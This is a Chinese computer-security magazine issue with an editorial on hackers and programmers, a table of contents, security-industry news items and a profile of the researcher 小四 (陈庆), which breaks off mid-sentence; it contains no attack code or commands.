如果文件已经丢失或损坏，那么需要从光盘中将文件重新安装到硬盘。使用Regedit32，使用户对下列注册表项目拥有读的权限：
- HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Perflib 及其所有子项；
- HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurePipeServers\winreg；
在向监视器中加入对象后，用户就可以选择 \Server 进行性能检测了。

# “黑客”与“程序员”
“黑客”？“程序员”？这两者有关系吗？虽然“黑客”不等于“程序员”，但作为一个真正公认的黑客，一定会写程序，但他并不就是程序员。“程序员”也不代表“黑客”，但是他们总是有千丝万缕的联系。

前几天有幸和江海客聊过一次，听了他的一些观点很受启发，再结合我们平时和读者交往联系的一些体会，便有如下浅见想与大家交流。

我们常常会收到一些来信、或者是电话、或者是QQ信息，说是“非常想学习编程，但是不知道该学什么，从那儿着手，希望给个意见”。芸芸，我们根据他的情况给了一些对应的引导，但是时隔3个月、半年甚至更长时间，他还会问同样的问题。反过来问他的学习计划，整天在研究漏洞列表，工具的应用，根本就没有安排时间去学习编程技术，既没有学习理论，更谈不上实践，无怪乎会这样！简单来说，要学好程序，首先要对它产生浓厚的兴趣，确定一个目标，在什么方向中学习，以程序为主要呢？还是辅助其他？最后学习起来会更有效一些！

其实对于什么人是“黑客”，什么人是“程序员”，谁也不敢下结论。一个有“黑客”行为的人不一定是程序员，但也有可能是一个优秀的“程序员”。反过来，优秀的程序员不一定会有“黑客”行为，但也可能是一个非常著名，有影响力的“黑客”。

作为一个“黑客”，未必技术第一，但想象力绝对一流，因为他们专门研究弱点。他们是尽力挖掘计算机程序最大潜力的电脑精英，他们能敏锐发现计算机系统及网络的缺陷和漏洞，热衷于克服限制、突破难关、解决问题。而不应该是单纯对某一网站发起攻击，这样发展下去，只能成为一个名副其实的“脚本小子”。

作为一个“程序员”，就需要有良好的团队精神和协作能力，标准化的代码编写习惯，模块化思维能力，系统化的学习和总结的能力，这样才能使得自己处于不断进步的状态下，才能在IT的发展中有相当重要的地位，从底层硬件通讯协议的建立，到数据传输层的处理，到操作系统的建设，到数据库平台的建设，一直到应用层上各种数据营销平台的搭建，扮演举足轻重的角色并为IT事业的发展做巨大贡献。

无论是作为一个成功的“黑客”还是一个优秀的“程序员”，同样都需要有执着、钻研、奋进、永不言败的精神，否则便不具备成长性，因此即便眼前看是个高手，也会很快的被淘汰，被遗忘，因为他落伍的时候马上就到。

所以说不论是黑客还是程序员，都为IT事业、为中国的软件事业、网络工程带来巨大的建设力量。

# 黑客防线
总编辑：孙彬
执行主编：郭聪辉
编辑：秦丁可 王宇 刘峰
在线编辑：苏樱 劲刀狂舞 SQL Heavyd
企联部主任：肖亦然
企业联络部：张馨
美编部：王凤
技术部：徐生震
发行部：杨贵兰
邮购部：王英

光盘刊号：CN15-9201/TP
编辑：黑客防线编辑部
出版：家庭电脑世界杂志社
制作公司：北京地海森波网络技术公司
通信地址：北京中关村邮局008信箱
邮政编码：100080
协办单位：北京寰海科技开发中心

技术支持电话：62141445-8004
投稿E-mail：hacker@hacker.com.cn
问题解答E-mail：answer@hacker.com.cn
网址：http://www.hacker-defence.com
发行部电话：62141446
发行部传真：62141360
邮购部电话：62141445-8011

常年法律顾问：北京风清律师事务所 王碧清 律师
电话：13701229137
传真：(010) 84510532
E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00元人民币（光盘+说明书）

# 卷首语
# 业界动态
# 新闻动态
# 名家专访
# 小四的故事
——访中联绿盟信息技术公司陈庆

# 专题企划
## 企业网络整体备份解决方案
虽然，计算机技术的发展给人们的日常生活和工作提供了很多便利，然而，人为的操作错误、系统软件或应用软件的缺陷、硬件的损毁、电脑病毒、黑客攻击、自然灾难等等诸多因素都有可能造成计算机中数据的丢失，从而给企业造成无可估量的损失。为了保护企业关键业务数据，我们必须对这些数据进行有效的备份，并支持快速恢复。从安全的角度来说，备份是和防火墙、病毒、IDS 一样重要的防范手段。从某种程度上说，备份甚至比其他防范措施还要重要，因为备份可以在系统完全瘫痪的情况下最大程度地保护公司的信息资产。比如某个企业的OA系统和用电营销系统是信息系统的核心组成部分；而系统中的数据，更是核心中的核心，数据的安全性关系到整个系统能否正常的运行，最终关系到企业的内部办公事务能否正常运转和对外提供正常的服务，所以，做好数据保护是至关重要的，是保证企业系统的最后一道防线。

# 网管之家
- 用 SSL 构建一个安全的 Apache
- IIS5.0 的安全管理
- 构建一个基于 SSL 的安全 Web 网站
- SQL Server 的安全配置

利用数据库漏洞进行入侵是黑客们常用的手法，特别是MS SQL的某些漏洞更是让他们屡屡得手。那么，如何进行安全配置，维护好 SQL Server 的安全呢？这是本文重点讨论的问题。

- 阻断几种拒绝服务攻击的手段
- 防火墙的维护
- 防火墙远程管理技术

# 读者光盘服务
为了便于读者学习，我们开辟自由软件刻盘服务免邮费，有需要者请汇款至黑客防线邮购部。

邮政编码：100080
邮购地址：北京市中关村邮局008信箱
收件单位：黑客防线邮购部

- Red Hat Linux 6.0 (2CD)
  定价：25元
- Red Hat Linux 6.2 (1CD)
  定价：15
- Red Hat Linux 7.0 (1CD)
  定价：15
- Red Hat Linux 7.1 (2CD)
  定价：25元
- Red Hat Linux 7.2 (3CD)
  定价：35元
- Red Hat Linux 7.3 (4CD)
  定价：45元
- Xteam Linux 4.0 (3CD)
  定价：35元
- Mandrake Linux 8.2 (5CD)
  定价：55元
- Free Bsd 4.3 (1CD)
  定价：15元
- Free Bsd 4.5 (5CD)
  定价：55元
- Free Bsd 4.6 (5CD)
  定价：55元
- Trustix Linux 1.5 (10CD) 像OpenBSD一样稳定安全的 Linux
  定价：100元
- Linux 文档，工具，游戏，内核及代码 (6CD)
  定价：65元

| 项目 | 规格 | 价格 |
| :--- | :--- | :--- |
| 黑客防线秘笈（珍藏版） | 1CD | 28.00元/期 |
| 黑客防线2到7期（珍藏版） | 1CD | 28.00元/期 |
| 黑客防线8-9期（珍藏版） | 2CD | 28.00元/期 |
| 黑客防线9上、9下、10上期 | 1CD | 6.80元/期 |
| 黑客防线11期 | 1CD | 10.00元/期 |
| 黑客防线12期 | 1CD | 10.00元/期 |
| 中国黑客内幕 | 1CD | 25.00元/本 |
| 局域网组建维护300问 | 1CD | 19.80元/本 |
| 编程入门 | 2CD | 25.00元/本 |
| 黑客防线精华本 | 2CD | 29.00元/本 |
| Windows XP 别样精彩 | 1CD | 19.80元/本 |

汇款地址：北京市中关村邮局008信箱
邮政编码：100080 收款人：《黑客防线》邮购
热线电话：(010)62141446 62141445-8011
E-mail: yougoubu@hacker.com.cn

- 给 IMail 7.X 设计邮箱申请页面和汉化 Web 界面 .... 35
- Imail 的迁移与群件 .................................... 40
- Webmail 攻防实战 ........................................ 41
- 后门工具包——rootkit（上）........................... 50
- Snort 用户手册（下）
  - ——编写 Snort 规则 ................................... 53
- 漏洞公告
- 案例分析
- UT (UltraThreads v5.07) 论坛漏洞分析 ............... 63
- 6129 安全吗 ................................................ 65
- 从一次简单的局域网入侵看内网安全 ................... 67
- 利用 NFS 漏洞攻击分析实例 ............................ 68
- 病毒前线
- IE 漏洞病毒逐个数 ........................................ 70
- Red Worm 简单分析 ........................................ 72
- 编程解析
- 利用 MS 漏洞编写炸弹与恢复方法 ..................... 75
- 用 C# 实现木马程序 ....................................... 79
微软在本世纪初提出了.Net 战略方案，其开发平台 VS.net 是现有 VS 6.0 的接班人。而 C# 则是微软 VS.Net 中的一个主推语言。本文作者就近期流行语言“C#”写了一个简单的木马程序，不知读者看过之后是否产生去学习新语言、新知识的冲动呢？
- 用挂接技术实现对文件的加密 ........................... 83
- 安全方案
- 校园网中网络安全技术的应用 ........................... 86
校园网络安全的相对滞后极大地影响了学校网络的发展。本文为校园网络安全提供了一个综合解决的方案和思路。
- 用 PPTP 协议配置的
  - 企业级的 VPN 应用方案(一) .......................... 89
- MPLS VPN 与 IPSec VPN 技术比较 ....................... 92
- 为什么不在防火墙上集成病毒检测 ..................... 93
- 如何选择防火墙的存储器 ................................. 94
- 编读互动

# 金山触动网络防毒蓝色体验
8月13日，金山软件股份公司的新产品“金山毒霸2003”和“金山网镖2003”小型内部测评会在翠宫饭店成功举行。

蓝色环保的无毒网页、无毒邮件、无毒聊天是金山毒霸提出构成互联网安全环境的几大模块，《金山毒霸2003》有针对性的对应这几个模块进行了一系列的功能开发，形成了对网络环境下计算机比较全面、立体的防护。金山毒霸的病毒查杀和防护技术已经完全能够满足目前互联网环境下的计算机安全要求。

《金山网镖2003》增加了IP规则编辑、网络状态监控、系统安全漏洞扫描，更增强智能防黑、IP规则编辑和网络状态监控。金山公司推出这一款个人防火墙产品，可以在扫描漏洞同时提供系统安全补丁链接，杜绝网络的安全隐患。这是此产品的又一大独有功能。智能防黑、IP规则编辑、网络状态监控、漏洞扫描修补使得金山网镖2003成为一个成熟和功能完备的个人网络防火墙产品。

# 启明星辰天阗 IDS 进入“千兆时代”
8月13日，国内第一套自主研发的千兆入侵检测系统——启明星辰公司天阗千兆入侵检测与预警系统在北京发布，标志着以入侵检测为核心的网络安全积极防御体系进入“千兆时代”。与此同时，启明星辰公司推出了以“天阗”命名的入侵检测系统共五种系列产品，分别是：大规模高速型千兆入侵检测系统的天阗N1000、多级分布型入侵检测系统的天阗N500、基本型入侵检测系统的天阗N100、主机入侵检测系统For Solaris的天阗H220和主机入侵检测系统的天阗H120。它推动国内入侵检测产品和服务进入“客户化”时代。在成功地突破数据高速采集技术、数据分析处理技术和在国内最大规模入侵检测系统分布式部署的重点安全项目方案设计、实施的经验基础上，启明星辰公司推出了国内第一款完全自主研发不需要负载均衡处理的天阗千兆入侵检测系统。

# 中国企业与互联网主题论坛在京隆重举行
7月23日，由中国万网主办，CNNIC（中国互联网络信息中心）、VeriSign等协办的“中国企业与互联网主题论坛”在京隆重举行。国内外著名的网络服务商与IT评论家就“中国企业与互联网”主题发表了精彩的演讲。海尔集团、同仁堂集团、双鹤药业集团、中国纺织品进出口总公司等数百家企业派代表出席了论坛。

中国万网主办的本次论坛是在中国万网成立6周年之际，是万网周年庆的重要组成部分。成立于1996年的中国万网现在为40万域名和近10万家企业网站提供服务，在中国地区域名服务中占主导地位。万网总裁张向东和张向宁曾经在1996年底开始在国内掀起普及域名保护意识的运动，并帮助数百家知名企业夺回了自己的域名。1997年，在国内首次提倡虚拟主机概念，为中国中小企业使用互联网成为现实。1998年与中国电信一起成为当时处于垄断地位的域名注册机构NSI在中国的仅有的两家首席合作伙伴。万网已经成为中国互联网最重要的域名提供商之一。

# 安氏（中国）成为微软安全解决方案金牌合作伙伴
安氏互联网安全系统(中国)有限公司正式宣布成美国微软《安全解决方案金牌伙伴计划》(Microsoft Gold Certified Partner Program for Security Solutions)在中国的企业成员。安氏是目前第一及惟一的荣获此殊荣的中国企业。

据微软透露，此项计划目的在于“使客户在构筑安全系统时更容易找到优秀的解决方案提供商”。安氏贵为此任务之先锋，进一步得微软之顶级支持。除得到成员级别的广泛技术支持，产品发行信息外，安氏享有附加的利益包括更大数量的微软认证伙伴产品许可证、专有微软认证金牌伙伴标识的使用授权、开发及测试许可授权、和以最快的速度获得产品信息。

安氏口号“因为专业，所以值得信赖”得以进一步确认。金牌伙伴必须是信息安全业上的活跃核心；拥有一定数量的“MCSE（微软认证系统工程师）”或“MC(解决方案开发专家)”，其资格更须得到“Microsoft Certified Professional”测试；安氏并严格遵守微软的Best Practice以全面确保用户之安全。

对安氏而言，此次荣誉是对企业策略发展、技术研发、市场品牌定位等各方面得到肯定的结果。微软与国家计委签署的62亿元合作意向书意味着微软于中国软件产业发展的战略建议已被采纳；安氏有信心与微软于不久将来进一步建立更密切战略关系，并与中国企业长久的发展贡献自己的力量。

# Check Point 携手 IBM 推出工业标准服务器防火墙
7月25日，“工业标准服务器式防火墙”解决方案研讨会在京举行，Check Point 携手 IBM 正式宣布推出工业标准服务器防火墙，这是Check point第一次提出了工业标准服务器式防火墙的概念。工业标准服务器防火墙实质上是一种软硬结合的产品，软件是Check Point 的防火墙软件系统，硬件则是工业标准服务器系统。

工业标准服务器防火墙与其他采用专用硬件防火墙相比，有着其独特的特点：随着未来黑客技术的不断更新，对于防火墙产品的技术更新会不断加强。因此，未来的防火墙将越来越像防病毒产品那样经常升级，升级能力的强弱将直接影响到防火墙产品的功能，升级能力弱的产品将会给用户的系统带来安全隐患。

根据Check Point中国区首席代表孙晓明先生介绍，工业标准服务器防火墙可以从软件和硬件两方面进行升级，从而将防火墙产品的应用推到了一个更高的层次。工业标准服务器的硬件扩展能力十分出色。Check Point将自己的防火墙软件以及经过精减的Linux操作系统都存放在一张光盘上，用户只需将该光盘安装在一台工业标准服务器上就获得了一台工业标准服务器防火墙。

## 微软三大系列PC外设产品登陆中国

8月1日，微软（中国）在京宣布微软系列外设产品在中国正式上市。微软中国此次推出了鼠标、键盘、游戏辅助外设等三大系列外设产品，产品款型多达十余种。

微软公司长期以来深入研究人机交互技术，并始终保持这一领域的技术领先优势。此次微软推出的每款硬件产品都具备融合众多先进技术、人体工学设计和出众兼容性的整合特性。微软光学鼠标采用的IntelliEye技术，使鼠标的采样频率高达6000帧/秒，定位更快速、精确。微软在硬件产品的外型设计方面也投入大量的精力，广泛采用符合人体工学的产品外型。同时，微软外设产品也提供更多、更好用的自定义功能，使用户可以按照自己的需要对鼠标、键盘的按键等进行个性化定制，使用户拥有最好的外设使用方案，更全面地感受科技发展、创新所带来的便利。

# BEA 推基础件助企业简化 IT 体系

7月25日，BEA 公司在北京举行了其最新基础件 BEA WebLogic Platform 7.0 的新品推介会，这一解决方案融合了BEA领先的应用服务器、应用开发和部署框架、企业门户、集成服务器以及Web服务等多项功能，能让客户简化自己的IT体系结构，把业务处理的效率和性能提高到新的水平，同时BEA公司也因为是业界首家在一个紧密集成的软件平台中提供上述所有功能的软件厂商，而在新兴的应用基础结构市场确立了领导者地位。作为一个全息的技术理念，该产品已经得到了1200多家独立软件开发商的支持。

# 黑客可轻易解密私人信息

美国纽约消息，美国哥伦比亚大学的几位计算机安全研究人员指出，在包含 Pretty Good Privacy 这种深受用户欢迎的电子邮件自动答复工具的加密软件中发现了一种安全漏洞，这种漏洞使得网络黑客通过将加密的邮件重新打包发还给邮件接收者并诱骗他们点击答复键即可解密私人邮件。所以那些专门在互联网上从事窃取他人信息活动的人，仅仅通过诱使电子邮件接收人点击答复按键即可对保密的邮件信息加以解密。

# 美网络黑客最高可被判终身监禁

近年来，世界范围内的黑客活动越来越猖獗，网络安全问题也面临着越来越严峻的局面，而对黑客行为的惩罚一直过轻。美国众议院7月份以压倒优势的多数通过了一个名为《网络安全加强法案》的议案，根据这项议案，侵入别人的计算机网络的黑客，如果因为自己的行为造成、间接造成了受害人的死亡，或者以造成受害人死亡为入侵目的，那么该黑客可以被判处终生监禁。

# 江苏常州首例“黑客”案告破

7月5日以来，金坛市某大型企业集团多次有“黑客”侵入集团内部计算机系统，修改密码、程序，致使集团的100多台计算机处于瘫痪状态，集团正常业务往来受到破坏，损失巨大。

7月16日上午，侦查人员通过技侦手段，在该企业集团现场抓获了25岁的犯罪嫌疑人单飞，经突击审查，单飞交待了因工作调动产生不满情绪，而与上海一“黑客”高手相互勾结，联手破坏计算机信息系统功能的犯罪事实。之后，专案组立即赶赴上海，将另一名“黑客”抓获。

# 微软花费上亿美元彻查软件安全

微软全球副总裁李开复表示，对于微软来说，产品安全的重要性已经远远超过了一直极为重视的功能性，甚至超过了公司赢利的重要性。在今年2月到4月期间，微软研发部门将所有手头正在进行的工作暂停，彻底检查了每一个微软的软件，将所有存在的漏洞全部修好。“这是一笔上亿美元的开销，列入名为“可信赖的计算”工程，并培训9000多位以编写安全软件为主旨的程序开发人员。这对微软也是一个非常重大的决定。”李开复强调。此后，微软还分期发布了数个服务包，以帮助用户解决以前存在的安全问题。

另外这个以不公开源代码著称的公司于8月初宣布，微软计划披露272个计算机源代码模块和113条专有操作系统软件协议，这将使外部的编程人员能够开发出在Windows上更好地运行的应用软件。微软亦于前不久向中国某些大企业公开了部分源代码。


# 小四的故事
文/本刊记者 秦丁可

## 访中联绿盟信息技术公司陈庆

“……我一直都希望大家从这里学到的不是技术本身，而是学习方法和一种不再狂热的淡然。很多技术，明天就会过时，如果你掌握的是学习方法，那你还有下一个机会，如果你掌握的仅仅是这个技术本身，你就没有机会了……”

这是网上广为流传的“小四哥”那篇经典之帖——《你尽力了吗》中的精华之语，我用它作为讲述“小四”平淡中见传奇的故事的开始，因为我认为这篇帖子和这句话可以高度概括“小四”其人，包括他的学术态度和处世哲学。

“小四”本名陈庆，是时下国内网络安全界的热门精英人物之一，继袁哥、WARNING3等人后“绿盟科技”又一技术骨干，UNIX/LINUX系统底层分析高手。在这众多赞誉与头衔的背后，生活中的陈庆非常低调，盛名之下，他只认可一个自我评价：“我只是一个普通的UNIX程序员。”

流火七月一个酷暑难耐的午后，我在“中联绿盟”的办公楼按约采访小四。面前的小四再次令我感到现实与想像的差距。中等瘦削的身材，白皙骨感的脸庞，树脂镜片后谦逊坦诚的目光。一件印有“绿盟”公司徽记的黑色工作T恤，一条“看似廉价”的米色西裤，一双“绝对廉价”的“千层底”布鞋。于高档Office里满目的名牌西装革履中突显一种洒脱与闲适。在握住他主动伸出的手彼此寒暄时，我感到一种自然随和的热情，一下子淡化了初次见面的陌生感。

随后，我们坐在静静的会客室里面，听小四讲那过去的事情……

# “象牙塔”里的故事

故事从“小四”这个名字说起，没人想到“小四”与“MUD”有何相关。1997年在长沙铁道学院电子工程系计算机软件专业上“大四”的陈庆，通过中国教育科研网接触互联网，“MUD”也就是“泥巴”在网上是尽人皆知的经典游戏，陈庆也一度沉迷其中。联网玩“泥巴”的时候，他起了“小四”这么一个用他自己的话说“江湖味道比较浓且具东方色彩”的化名。网名常随着人的使用习惯沿袭下来，所以“小四”叫到今天从未更改。

“小四”高考填报的所有志愿都是与计算机相关专业，且注明不服从分配录取到其他专业。对计算机如此情有独钟，源于高中时接触BASIC语言课程后激发的浓厚兴趣。这兴趣使一度热衷参加各类数学竞赛的陈庆改变了高考报数学系的初衷。很巧合，从袁哥到小四，他们原本都在数学上有很强的天赋与浓厚的兴趣，看来有数学天赋的人更易在计算机技术领域取得突出成绩。

计算机专业的学生少不了天天与电脑为伍。那还是DOS3.1盛行的年代，小四与同学开始研究病毒。这似乎也是当时计算机技术里最能激发人兴趣的东西，成为现在很多高手最初入门的切入口，比如袁哥与黄鑫。研究病毒自然离不开汇编，学校在大二时才开设汇编课程，可小四和很多同学大一就已自学成了汇编的高手，搞汇编“成风”，同学间笑谈：“以后你编病毒，我编杀毒软件，大家各赚各的钱。”大伙写起汇编来，动辄就是成千上万行代码。小四自己则练习着用汇编写一些检查病毒的程序，针对当时病毒喜欢更改系统中断向量的特点，通过硬件编程绕过操作系统对其进行监视。他用这个土方法偶然间还发现了当时已风靡全国的江民KV100杀毒软件存在的一个小问题，那就是KV100每次杀毒，总在电脑内存地址中修改一些内容，但退出后不恢复。后来小四与3个同学又用汇编实现了一个比较“大胆”的设想——更换MSDOS操作系统中的COMMAND.COM执行文件，用自编的文件取而代之，而且做得很成功，加载Windows3.1一点问题也没有，这让他们小有成就感。正由于汇编和DOS掌握得太熟练了，以至于他们很难接受DOS向Windows3.1的过渡，使他在Windows编程方面出现了一个小小的断档，小四就是跳过Windows3.1/3.2而直接用Windows95的，好在计算机技术的快速更新使这一断档变得无足轻重。

大学四年，小四的大部分课余时间都用在图书馆和书店，翻阅了众多汇编书籍和资料，手抄了大量的代码。研究汇编达到了痴迷的程度，甚至有段时间整天琢磨软、硬盘控制器的参数手册，梦想可以实现在软盘有写保护的情况下也能进行写入操作，他试图从这些参数手册中找到可利用的问题，打开突破口，不过最终理智告诉自己，这在理论上是不可能的事情。在学校，小四还接触了一段曾在微机网络操作系统中独领风骚的NOVELL公司的NETWARE网络系统，并在该平台下进行基于IPX/SPX通讯协议的编程开发。不久后“JAVA热潮”席卷全球业界，正准备毕业论文设计的小四便选用JAVA编程作为课题。为实现在JAVA下的网络编程，就得构建基于TCP/IP协议的网络开发环境。在老师的帮助下，他用一台16M内存的电脑作NT服务器，与几台运行Win95的电脑组了一个简单局网，然后就开始研究TCP/IP协议和JAVA下的底层网络通讯以及SOCKET网络编程。与许多程序员不同的是，较之与UI（用户界面）相关的开发，他更喜欢与底层的东西打交道，这让他时刻保持一种探究事物终极秘密的好奇。不过，小四认为能在应用层上开发出优秀实用的程序也是很了不起的事情，自己也一度非常向往，无奈计算机技术发展到今天，学科门类越来越细，人的精力有限，只能集中到自己最感兴趣的地方。

回顾大学生活，小四丝毫未感韶华虚度。如海绵吸水般完成了知识的原始积累。正是这象牙塔里练就的一身扎实基本功，才使他日后的“笑傲江湖”成为一种可能。

# 小站的故事

本节为你讲述的是小四一段鲜为人知的“传奇”经历。所谓“传奇”是因为它事关小四一生的命运。

1997年夏天，小四大学毕业。以他的“边疆省身份”，按照当年“从哪来，回哪去”的毕业分配原则，除了回大西北，小四似乎别无选择。在开始不知情的情况下，档案就被兰州铁路局调走，分配到了宁夏银川铁路分局所属的一个名叫银水桥的一级编组站，离银川市还有数百公里。这里生活环境很差，四周是戈壁荒漠。当时按规定，他的工资是每月425元，但种种原因，最后发到手里的仅剩区区245元！在1997年，这笔钱即使在物价水平很低的西北地区，吃饭也快成了问题。就算这样，他的想法还是只要能安排到站里的电算中心工作，可以接触计算机，也就不走了。但这么一个最低要求也没被满足，他最后被站里分到了“调车组”，而且连做一名“调度员”竟也成了一种奢望。具体工作是他来之前想都想不到的“扒火车”！也就是摘车厢、扳道岔。小四幽默地说：“自己从小想当‘铁道游击队员’，这下倒是梦想成真了。”不过凭着对这份工作的新奇，他开始工作热情还挺高，也没怎么觉得一个计算机专业的高材生那敲击键盘的手用来摘勾扳闸有何不妥。忆起当年，对于“摘勾、分车、制动”全过程的每个细节他还像对程序代码一样仍烂熟于心，从机械原理到具体操作步骤，讲述起来津津乐道。经他一描绘，粗重简单的重复劳动也是一种赏心悦目的“行为艺术”。看着眼前这位瘦弱斯文的白面书生，怎么也想像不出他在“大漠孤烟直”的西北戈壁铁道线上，引领和分解一条条钢铁巨龙的“铁汉雄姿”！也许这就是生活的误会，也许这就是他人生过程中一个小小的考验和历练。当了3个月的“铁道游击队员”，“粗犷豪迈”生活的新鲜感渐渐褪去，代之以枯燥乏味的本色，书生陈庆也开始认真思考自己作为程序员的前途与存在价值，他开始强烈意识到这样下去是一种生命的浪费，且经济上的拮据也濒临向原本就贫困的家里伸手的窘境。于是他给母校的老师和同学写了信，表达了想回校谋职的愿望。好在当时任母校网络中心主任的老师对陈庆这个获优秀毕业设计的学生印象很好，答应帮这个忙。由于铁路这边不放人，要走只有“开除”一条路，工作调动不可能。但开弓岂有回头箭，去意已决的小四背起简单的行囊，就踏上了东进的列车。

“在火车来之前1小时，我到站长办公室跟站长去辞行，同时还奢望他能网开一面给我办调动，但他说没有这个权利，需要兰州局批准，同时又对我进行说服挽留，甚至问我如果现在调我去站电算中心，我是不是就愿意留下？我知道自己已绝无回心转意的可能，所以也没有说任何抱怨的话，只强调了一下家庭困难，希望得到站里的理解。现在想起自己当年的念头都不敢相信，刚来站里的时候我就想，只要给我分到电算中心，只要让我摸电脑键盘，那么让我一辈子在这儿给站里编FOXPRO数据库程序也成！我在校就入了党，又受军人家庭环境的教育影响，到现在我也是个组织观念很强的人。”小四回忆说。

说到这里，有一个人令小四感怀不已，那就是临行唯一为他送行的站团委书记。

“团委书记是个26岁的转业军人，我们同宿舍，对我一直很好，工作生活上给了不少照顾，走那天只有他一人扛着行李送我。在车站他说了句话，我一辈子也忘不了，他说：‘我会在这儿等你一个小时，如果一个小时后等不到你，我才回去。’因为火车开出半个小时有一个小站，可以在那儿下车再乘别的车返回他是真心希望我留下，3个多月我们吃住在一起，友情很深。我当时很感动，但我还是对他说：‘你别等了，我肯定不会再回来了！’”最后，书记没再说什么，而是掏出1000元钱塞进小四的手里。

小四走了，真的再也没回头。

# 跳槽的故事

事隔3个月，小四再次回到长沙母校。老师安排他到学校网络中心工作。由于无法办工作调动，他只能以编外临时的身份工作，每月只有700余元的微薄收入，但小四干得很开心，因为终于又可以摸电脑键盘了，这比什么都重要。

因为小四当初以JAVA为课题获得优秀毕业设计，老师就安排他搞JAVA开发。其间，他参与为铁道部门开发了一套基于网络的无纸化办公系统。那段时间，小四对JAVA的研究热情空前高涨，搞开发的同时还担任水木清华JAVA版的版主。1998年4月，JAVA开发告一段落的同时，学校网络中心与湖南移动公司谈了一个合作开发项目，将小四调去搞基于UNIX的编程。上学时他在学校的SGI图形工作站上就接触过UNIX下的编程，正式做起开发来也不难。当时的电信通讯系统与串口及X.25分组交换协议关系密切，这段实践令小四的此类技术能力大增，并积累了丰富的开发经验。这中间他开发了一个与模拟交换机通讯的程序，这也是他惟一用VC开发的带用户界面的程序。不久后他又被派去搞数字交换机，全部转入UNIX SOLARIS下的C语言编程。由于是通过中国教育科研网上网，在“教研网”内免费，如访问“教研网”以外的国内、外站点则以流量记费。为了“突破限制”，小四便找了一些“肉鸡”代理出国。现在说来，这算是小四做的第一次与网络安全有关的事情。后来从书刊中看到的有关国外“黑客”的内容也激发了他对网络安全技术的浓厚兴趣。1997年互联网在国内刚兴起，上网的人多数有一定计算机技术水准，且以计算机相关专业的高年级本科或研究生居多，与他们的网上交流加快了小四向网络安全领域的技术转向。1997至1998年间，他先后在网上接触了两位现在绿盟的同事DEEPIN和袁哥，经常光顾两人的个人主页。这段时间小四玩得最多的是Socket网络编程，有时把那些能致使Windows95蓝屏死机的DOS攻击程序找来研究。有时他也为会一己之利搞一些小动作，比如在局域网内与别人同时上网，急于下载网速又慢时，他就将别人“踢下去”，趁别人当机和重启系统之际独享带宽资源。

湖南移动的这个项目小四一直开发到1999年2月，这时他再次为家庭经济困难所累。900元的月薪，除了自己生活，还要负担刚上大学的妹妹的学习及生活费用。当年他本科毕业就想“考研”，准考证都办好了，也因家庭贫困，在考试前一天决定放弃，而这个愿望最终没有实现。经济困难的压力，使对学校很有感情的他无奈之中再次做出离开的决定，就像当初从那个西北小站的出走。临行前，校网络中心主任也是当初接收他来的老师给他支了1000元钱，还把他请到家里吃饭送行。面对一直厚待自己的恩师，小四说：“老师，什么时候您自己开个公司吧，我回来继续跟您干！”

一身简单不能再简单的行囊伴着小四第一次来到了北京。与上次回长沙母校不同，这次“迁移”的目的地并没有他预订好的“接收单位”，原本有一个在北京的同学帮他联系的单位因故告吹。面对未知的前途，小四仍带着今非昔比的自信与老师同学的鼓励上路了。个人能力以及北京在全国首屈一指的网络安全发展环境使他对自己的抉择坚信不已。果然，一到京城便顺利地在国内通讯巨人——深圳华为公司的北京研究所谋到一职，在协议软件部做研发。但世事难料，公司的特点以及岗位需要并不能充分发挥他的才华与特长，加之父亲的突然病故，3个月后，他离开了华为，转入了启明星辰这个真正的网络安全专业公司。可以说到启明星辰是小四正式介入网络安全工作的开始。面试他的公司网络安全部负责人是位中科院的博士，给他出的考题是开发一个“切断他人TCP/IP连接”的小程序，没几天小四就交上了令他满意的答卷。在启明星辰的日子里，小四专心于网络协议与系统安全漏洞的研究，完成公司交给的开发任务，间或做些技术资料翻译和文档整理工作。因对网络协议分析浓厚的兴趣，他喜欢用协议分析软件“抓抓（数据）包”来研究。感觉别人开发的SNIFFER（嗅探器）不够“傻瓜化”，就自己动手写。长时间的网络编程，不但使他的网络协议与漏洞分析技术日臻纯熟，更练就了一手C语言的硬功，他戏称用C语言久了，“老本行”JAVA都不会用了。就这样，他在启明星辰一干就是半年。

1999年底，正是“绿盟”招兵买马、蓄势待发的时候。小四在网上遇到了故友，也是现在“绿盟”的工程部总监DEEPIN，后者了解到他的现状后，建议他去“绿盟”，理由是，“绿盟”已经或正在聚集一批圈内“牛人”，包括小四熟识的“WARNING3”、“Adam”都名列其中，公司未来的发展潜力巨大。当时适逢年底，小四想转过年再看看。春节后的一天DEEPIN打来电话，约小四一起去“绿盟”那边看看，小四只想着“正巧去看望一下好友TT（WARNING3）”就如约前往。去时，他还约上了自己在水木清华“黑客版”的好友，也是现在绿盟的同事IPXODI。到了“绿盟”，两人跟着DEEPIN一进门就惊讶地发现里面竟有10来个人，像个有些特别意义的聚会。他们见到了召集组织者——“眼圈”，“眼圈”说今天请大伙过来，一来吃顿饭相互认识一下，二来开个小会商议一些重要事情。这下小四意识到：这莫不是“绿盟”的“成立誓师大会”？马上有点不好意思，觉得自己是个“外人”。让他意外的事情还在后面，他随后得到一份事先打印好的“会议纪要”，发现“与会者名单”中自己和IPXODI的大名竟赫然在列，他这才明白DEEPIN今天约他们来这里的真实用意。后来知道，原来在DEEPIN的推荐下，自己早就被“眼圈”圈进了“绿盟”的“集训名单”了。有了这个“既成事实”，后面的事情自不必说，小四第二天一回启明星辰就交了辞职报告，然后就来“绿盟”上班。初到“绿盟”，小四与WARNING3、袁哥等同在“研发部”，具体工作是开发各种操作系统下的网络工具，主要是Sniffer，这要求开发者熟悉各种操作系统平台，再就是做一些网络工具程序的移植，同时他还写了不少诸如

# 低调小四

采访札记

> “……一个程序员做到 W.Richard.Stevens 那个份上，做到逝世后还能叫全世界的顶级 Hacker 们专门著文怀念，但生前却不曾著文攻击，想想看，那是一种什么样的境界，那是一份什么样的淡然……”这是小四那篇《你尽力了吗》中的另一点睛之笔。

除了 W.Richard.Stevens，陈庆的偶像还有贝尔实验室 Plan 9 的发明者与 UNIX 之父 Ken Thompson 和 Dennis M.Ritchie，集“图灵奖”与“奥运银牌得主”于一身，这样的传奇已令人仰视，但更让小四感喟的则是其坐拥殊荣仍低调内敛的脱俗境界。

